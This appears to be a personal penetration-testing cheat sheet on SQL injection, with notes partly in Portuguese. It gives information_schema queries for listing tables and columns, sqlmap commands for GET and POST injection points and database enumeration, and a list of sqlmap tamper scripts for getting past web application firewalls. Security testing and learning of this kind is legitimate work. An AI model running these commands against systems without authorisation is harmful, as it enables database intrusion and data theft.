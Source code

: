 - Getting User defined Tables  
    
    SELECT table_name FROM information_schema.tables WHERE table_schema = 'databasename'

- Getting Column Names  
    
    SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'tablename'

## SQLMap
source:
(features) https://github.com/sqlmapproject/sqlmap/wiki/Features

## SQLi GET requests

Source: https://security.stackexchange.com/questions/5869/testing-clean-urls-with-sqlmap

You should use * in your URI, creating URI injection point(s). So instead of using:

	sqlmap.py -u "website.com/script/paramrewrited1/paramrewrited2"
use:

	sqlmap.py -u "website.com/script/paramrewrited1*/paramrewrited2*"


## SQLi in POST requests

sqlmap -r file_with_request.txt --dbs --batch --level=3 --risk=3

informing the parameters to test:
sqlmap -r req.txt -p "source,username,password" --dbs


### using proxy to learning purposes

	sqlmap -r arq_with_request --proxy http://localhost:8080 --level 5 --risk 3 --threads 10
	
**obs: Os parâmetros enviados via JSON são automaticamente detectados e testados**

### Bypassing WAF with sqlmap


Tamper with sqlmap

source: https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3q

source:
https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423

Tamper scripts:

--tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords

apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
